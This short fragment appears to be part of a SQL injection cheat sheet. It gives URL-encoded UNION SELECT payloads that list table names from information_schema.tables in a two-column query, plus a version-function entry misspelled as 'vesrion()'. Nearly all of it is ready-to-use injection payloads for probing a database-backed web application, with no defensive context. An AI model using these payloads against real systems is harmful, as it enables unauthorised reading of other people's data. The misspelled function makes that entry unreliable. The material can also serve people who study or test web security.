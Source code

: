 ### get version
`vesrion()`


## 2 Row
### table names (1st column string)
`union+select+table_name,+null+from+information_schema.tables--`

### table names (2nd column string)
`union+select+null,+table_name+from+information_schema.tables--`